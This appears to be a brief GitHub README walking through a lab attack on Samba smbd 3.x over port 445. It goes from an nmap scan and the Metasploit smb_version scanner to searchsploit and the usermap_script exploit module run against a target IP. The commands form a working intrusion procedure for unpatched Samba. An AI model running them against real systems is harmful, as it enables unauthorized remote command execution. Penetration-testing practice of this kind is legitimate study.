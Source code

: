 # Port-445-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-
1.nmap -sV (target ip)

2.msfconsole

3.msf 6 > search smb
![image](https://github.com/thanawut2903/Port-445-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-/assets/159118913/54030f2b-ef38-4e25-94d9-bf96fc4259e0)
4.msf 6 > use auxiliary/scanner/smb/smb_version

5.msf 6 > show options 

6.msf 6 > set RHOST (target ip)
![image](https://github.com/thanawut2903/Port-445-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-/assets/159118913/d7f57e35-b032-47d3-b85f-7ed2fe897c29)
7.msf 6 > run
![image](https://github.com/thanawut2903/Port-445-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-/assets/159118913/2cba8e7d-3caf-41f0-b895-feaee41332c4)
8.searchsploit samba | grep 3.0.20
![image](https://github.com/thanawut2903/Port-445-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-/assets/159118913/8a236e61-fe1b-4d4f-ba8c-0c765cc3f7c7)
9.msf 6 > use exploit/multi/samba/usermap_script

10.msf 6 > show options

11.msf 6 > set RHOST (target ip)

12.msf 6 > exploit
![image](https://github.com/thanawut2903/Port-445-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-/assets/159118913/0acce98f-8c0f-41e5-bf66-556cb9beace3)

Reference form : https://www.youtube.com/watch?v=Eqsilc8HoPI
